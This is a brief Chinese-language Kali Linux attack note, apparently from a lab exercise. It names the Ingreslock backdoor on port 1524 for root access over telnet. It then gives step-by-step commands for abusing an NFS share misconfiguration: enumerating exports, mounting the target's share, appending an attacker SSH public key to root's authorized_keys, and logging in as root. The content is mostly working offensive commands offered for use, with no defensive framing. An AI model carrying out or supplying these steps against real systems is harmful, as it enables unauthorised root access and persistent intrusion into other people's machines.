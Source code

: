 # Kali Linux #
## Ingreslock后门漏洞 ##
**Port**: 1524  
telnet直接获取Root权限
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```